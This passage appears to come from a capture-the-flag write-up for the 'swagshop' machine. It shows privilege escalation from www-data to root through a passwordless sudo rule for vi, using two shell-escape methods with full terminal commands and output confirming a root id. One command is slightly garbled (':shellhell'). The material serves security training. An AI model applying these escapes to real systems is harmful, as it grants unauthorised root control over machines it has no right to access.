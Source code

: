 ###### `Gettting a Root Shell using vi`

```
www-data@swagshop:/tmp$ sudo -l   
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

So Technically we can create any file on `/var/www/html/` directory. We are going to create the following file.
```
www-data@swagshop:/tmp$ sudo vi /var/www/html/get_me_root
sudo vi /var/www/html/get_me_root
:shellhell=/bin/bash
:shell
root@swagshop:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

One more way

```
www-data@swagshop:/tmp$ sudo vi /var/www/html/GetMeAnotherRoot -c ':!/bin/sh'
"/var/www/html/GetMeAnotherRoot" [New File]
:!/bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```